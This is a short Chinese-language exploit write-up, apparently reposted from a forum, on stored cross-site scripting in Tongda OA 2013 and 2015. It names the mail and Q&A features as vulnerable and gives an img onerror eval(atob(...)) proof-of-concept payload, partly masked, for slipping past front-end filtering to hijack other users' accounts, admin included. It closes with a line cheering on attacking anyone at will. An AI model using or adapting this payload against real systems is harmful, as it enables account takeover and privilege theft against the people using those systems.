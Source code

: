 # 通达oa xss

> 原文：[https://www.zhihuifly.com/t/topic/3338](https://www.zhihuifly.com/t/topic/3338)

# 通达oa xss

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

发邮件的地方、问题问答的地⽅都存在XSS，可获取他人账号权限。⼀般情况下，OA会有前端进行过滤， 所以抓包时候去添加payload，之后会对事件进行过滤，所以使用

poc

```
<img src=x onerror=eval(atob('cz1jcmVXXXXXytNYXRoXXXXXXXXhbmRvbSgp'))> 
```

![image](img/31be5226e8171a6c4cb247a5a873c79b.png)

![image](img/dc09de36da29dd67cf327c7ebb28f297.png)

这个漏洞获取admin权限⾮常好用。想X谁X谁!